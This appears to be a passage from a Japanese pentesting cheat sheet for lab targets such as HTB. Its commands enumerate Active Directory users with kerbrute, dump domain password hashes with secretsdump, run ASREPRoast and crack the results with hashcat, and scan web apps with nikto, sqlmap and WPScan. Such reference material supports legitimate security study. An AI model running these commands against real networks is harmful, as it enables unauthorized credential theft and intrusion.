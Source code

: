 参考：[enum4linux | Kali Linux Tools](https://www.kali.org/tools/enum4linux/)

参考：[Enum4linuxとSmbclientを使用してSMBを列挙する方法«ヌルバイト::WonderHowTo](https://null-byte.wonderhowto.com/how-to/enumerate-smb-with-enum4linux-smbclient-0198049/)

参考：[byt3bl33d3r/CrackMapExec: A swiss army knife for pentesting networks](https://github.com/byt3bl33d3r/CrackMapExec)

参考：[ShawnDEvans/smbmap: SMBMap is a handy SMB enumeration tool](https://github.com/ShawnDEvans/smbmap)

### Active Directory環境のスキャン

``` bash
# DomainNameをhostsに追加しておく(enum4linux や Nmap でドメインが特定されている状態で使用)
./kerbrute_linux_386 userenum -t 20 -d domain.local --dc domain.local /usr/share/wordlists/metasploit/unix_users.txt

# impacketのexamples/secretsdump.py(DRSUAPI)によるダンプの取得
python3 examples/secretsdump.py DOMAIN/backup:PASS@10.10.10.0
# [*] Using the DRSUAPI method to get NTDS.DIT secrets
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::

# impacketのexamples/GetNPUsers.pyによるASREPRoast攻撃
python3 examples/GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

# GetNPUsers.pyの出力はハッシュで返されるので、以下のHashcatで解析できる
hashcat -a 0 -m 18200 ./hash.txt /usr/share/wordlists/rockyou.txt
```

- Kerberosの事前認証を悪用することにより、有効なActiveDirectoryユーザーをブルートフォースおよび列挙することができる。
- ドメインコントローラーのバックアップアカウント(buckup)などの権限を取得した場合、DC内のすべてのアカウントのパスワードハッシュを取得できる可能性がある。
- Ntds.ditファイル（ActiveDirectoryデータを格納するデータベース）を取得できた場合は、mimikatzやHashcatでパスワードを復号できる可能性がある。(DRSUAPIでダンプを取得)
- ASREPRoast は、Kerberos事前認証が必要な属性(DONT_REQ_PREAUTH)を持たないユーザを探し、悪用する攻撃。

参考：[UserAccountControl property flags - Windows Server | Microsoft Docs](https://docs.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)

参考：[ASREPRoast - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

### Web脆弱性スキャン

``` bash
# nikto
nikto --url targethost.htb | tee nikto.txt

# OWASP ZAP
sudo apt install zaproxy -y

# SQL injection scan
python3 sqlmap.py -u "http://targethost.htb/" --data "username=test&country=Ukraine"

# WPScan
wpscan --url http://targethost.htb --enumerate u,cb,m,vp | tee wpscan.txt
```

